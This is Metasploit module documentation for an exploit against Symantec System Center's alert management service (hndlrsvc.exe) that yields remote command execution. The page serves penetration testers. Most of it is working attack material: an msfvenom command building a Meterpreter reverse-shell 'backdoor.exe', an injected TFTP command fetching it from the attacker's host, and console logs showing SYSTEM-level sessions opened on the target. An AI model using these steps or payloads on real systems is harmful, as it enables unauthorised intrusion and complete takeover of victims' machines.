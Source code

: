 ## Vulnerable Application

  This module exploits Symantec System Center's alert management system (hndlrsvc.exe) with an arbitrary command execution.  The payload is uploaded via TFTP
  and then executed on the system.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/windows/antivirus/ams_hndlrsvc`
  4. Do: `set rhost`
  5. Do: `exploit`
  6. You should get a shell.

## Options

  **CMD**

  Optional command line to run instead of attempting to directly inject a payload

  **RPORT**

  The port the service is running on.  Default is 38292.

## Scenarios

### Manual Upload and Execute

If the module doesn't work for a shell, it's possible to run the CMD twice to emulate the steps the module takes.

1. start atftpd: `atftpd --daemon --port=69 /tftpboot/`
2. create payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 lport=4444 -f exe -o /tftpboot/backdoor.exe`
3. start metasploit
4. start a multihandler
5. load the module: `use exploit/windows/antivirus/ams_hndlrsvc`
6. use ams: `set CMD 'tftp -i 1.1.1.1 GET backdoor.exe'`
7. run
8. use ams: `set cmd 'backdoor.exe'`
9. run

  ```
root@kali:~/metasploit-framework# ./msfconsole 

msf > ifconfig
[*] exec: ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 1.1.1.1  netmask 255.255.255.0  broadcast 192.168.3.255
        inet6 fe80::20c:29ff:fef9:62a1  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f9:1f:a1  txqueuelen 1000  (Ethernet)
        RX packets 70933  bytes 39287343 (37.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11688  bytes 3788654 (3.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

msf > use exploit/multi/handler 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Starting the payload handler...
msf exploit(handler) > use exploit/windows/antivirus/ams_hndlrsvc 
msf exploit(ams_hndlrsvc) > set rhost 2.2.2.2
rhost => 2.2.2.2
msf exploit(ams_hndlrsvc) > set lport 9999
lport => 9999
msf exploit(ams_hndlrsvc) > set cmd 'tftp -i 1.1.1.1 GET backdoor.exe'
CMD => tftp -i 1.1.1.1 GET backdoor.exe
msf exploit(ams_hndlrsvc) > run

[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] 2.2.2.2:38292 - Executing command 'tftp -i 1.1.1.1 GET backdoor.exe'
[*] Exploit completed, but no session was created.
msf exploit(ams_hndlrsvc) > set cmd 'backdoor.exe'
cmd => backdoor.exe
msf exploit(ams_hndlrsvc) > run

[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] 2.2.2.2:38292 - Executing command 'backdoor.exe'
[*] Sending stage (957999 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:1038) at 2016-09-30 11:59:13 -0400
[*] Exploit completed, but no session was created.
msf exploit(ams_hndlrsvc) > sessions -l

Active sessions
===============

  Id  Type                   Information                 Connection
  --  ----                   -----------                 ----------
  1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ WEBB  1.1.1.1:4444 -> 2.2.2.2:1038 (2.2.2.2)

msf exploit(ams_hndlrsvc) > sessions -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: NT AUTHORITY\SYSTEM @ WEBB
      Tunnel: 1.1.1.1:4444 -> 2.2.2.2:1038 (2.2.2.2)
         Via: exploit/multi/handler
        UUID: 0a85ec1678bc8465/x86=1/windows=1/2016-09-30T15:59:12Z
   MachineID: 8b2889ec93a961f2cc3f2db4620def57
     CheckIn: 28s ago @ 2016-09-30 12:00:15 -0400
  Registered: No



msf exploit(ams_hndlrsvc) > 

  ```
  
### Using Standard Options
  
  ```
msf > use exploit/windows/antivirus/ams_hndlrsvc 
msf exploit(ams_hndlrsvc) > set rhost 2.2.2.2
rhost => 2.2.2.2
msf exploit(ams_hndlrsvc) > set lport 4445
lport => 4445
msf exploit(ams_hndlrsvc) > show options

Module options (exploit/windows/antivirus/ams_hndlrsvc):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD                     no        Execute this command instead of using command stager
   LHOST  1.1.1.1     no        The listen IP address from where the victim downloads the payload
   RHOST  2.2.2.2   yes       The target address
   RPORT  38292            yes       The target port


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     1.1.1.1     yes       The listen address
   LPORT     4445             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Universal


msf exploit(ams_hndlrsvc) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4445 
[*] 2.2.2.2:38292 - Sending request to 2.2.2.2:38292
[+] 2.2.2.2:38292 - tftp -i 1.1.1.1 GET OQTAVJBVWZH.exe
[*] 2.2.2.2:38292 - Attempting to execute the payload...
[+] 2.2.2.2:38292 - OQTAVJBVWZH.exe
[*] Sending stage (957999 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4445 -> 2.2.2.2:1041) at 2016-09-30 12:13:18 -0400

meterpreter > 

  ```
